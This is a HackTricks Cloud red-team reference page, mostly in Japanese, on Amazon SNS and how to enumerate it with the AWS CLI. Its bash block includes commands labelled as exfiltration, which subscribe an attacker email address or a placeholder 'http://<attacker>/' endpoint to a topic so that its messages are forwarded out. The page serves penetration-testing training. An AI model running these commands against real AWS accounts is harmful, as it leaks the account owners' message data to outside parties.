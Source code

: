 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) は **完全に管理されたメッセージングサービス** として説明されています。これは **アプリケーション間** (A2A) と **アプリケーションから人** (A2P) の通信タイプの両方をサポートしています。

A2A通信の主な機能には **公開/購読 (pub/sub) メカニズム** が含まれます。これらのメカニズムは **トピック** を導入し、高スループットの **プッシュベースの多対多メッセージング** を可能にするために重要です。この機能は、分散システム、マイクロサービス、およびイベント駆動のサーバーレスアーキテクチャを含むシナリオで非常に有利です。これらのトピックを活用することで、発行システムは **広範囲の購読システム** にメッセージを効率的に配信し、ファンアウトメッセージングパターンを促進できます。

### **Difference with SQS**

**SQS** は **キューに基づく** サービスであり、ポイントツーポイント通信を可能にし、メッセージが **単一の消費者** によって処理されることを保証します。これは **少なくとも1回の配信** を提供し、標準およびFIFOキューをサポートし、再試行や遅延処理のためのメッセージ保持を許可します。\
一方、**SNS** は **公開/購読に基づくサービス** であり、メッセージを **複数の購読者** に同時にブロードキャストすることによって **1対多** の通信を可能にします。これは **電子メール、SMS、Lambda関数、HTTP/HTTPS** などのさまざまな購読エンドポイントをサポートし、ターゲットメッセージ配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システム内のコンポーネント間のデカップリングを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動のファンアウト通信パターンを強調しています。

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**トピックがFIFOタイプの場合**、**SQS**プロトコルを使用するサブスクライバーのみが使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれていても、**`--region`**で正しいリージョンを指定してください。そうしないと、アクセス権がないことを示すエラーが表示されますが、問題はリージョンです。
{% endhint %}

#### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 権限昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### エクスプロイト後

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 永続性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 参考文献

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
